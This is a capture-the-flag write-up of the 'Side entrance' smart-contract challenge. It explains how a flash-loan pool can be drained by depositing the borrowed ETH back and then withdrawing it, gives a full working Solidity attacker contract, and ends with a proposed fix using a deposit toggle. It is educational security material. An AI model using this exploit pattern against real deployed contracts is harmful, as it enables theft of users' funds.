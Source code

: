 # Side entrance

## Challenge

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

## Solution

We start analyzing the `flashLoan` function of the pool contract

```solidity
function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;
    require(balanceBefore >= amount, "Not enough ETH in balance");

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");
}
```

We observe that this runs the `execute`function in the contract stored in the address `msg.sender`, and sends the borrowed amount with it. On the other hand, this pool offers two additional methods

```solidity
function deposit() external payable {
    balances[msg.sender] += msg.value;
}

function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
}
```

Notice that anyone that deposits value in this pool is able to retrieve it afterwards. An attacker can profit from this by using the borrowed money to deposit it in the pool. In this case, the total balance of the pool will not change and the flashloan will be finalized. However, when this is done, the attacker being the depositer now has the access to the funds via the withdraw function. And that is it. Let us now implement the attacker contract in [`AttackerSideEntrance.sol`](./AttackerSideEntrance.sol)

```solidity
contract AttackerSideEntrance {

    fallback() external payable {}

    function attack(address _pool, uint256 amount) public {
        IPool(_pool).flashLoan(amount);
        IPool(_pool).withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    function execute() external payable {
        IPool(msg.sender).deposit{value: msg.value}();
    }
}
```

First we need to import the pool contract or simply create an interface of it. In this case we created an interface called `IPool`. Then we create an `execute` function that takes the value from the loan and deposits it back to the pool. In order to execute the loan, we create an `attack` function that calls the `flashLoan` in `SideEntranceLenderPool.sol`. Once the flashloan is executed we can call the `withdraw` function. In order to receive funds in this attacker contract we should make it `payable` by adding a payable `fallback` function. Once the balance is in this contract, we transfer it to `msg.sender` which is the account launching the attack.

## Solving the issue

One way to block this hack could be to desactivate the `deposit` function while running the `flashLoan`. This can be done by setting the value of a toggle global variable to `false` when initiating the flashloan and requiring this variable to be true when depositing. Once the flashloan is executed the toggle variable would recover its `true` value. In this way, we make sure that during the `flashLoan` transaction the balance of the contract cannot be modified using the `deposit` function. Even if it is still possible to modify the balance by using a `selfdestruct`, these funds cannot be recovered via the `withdraw` function.
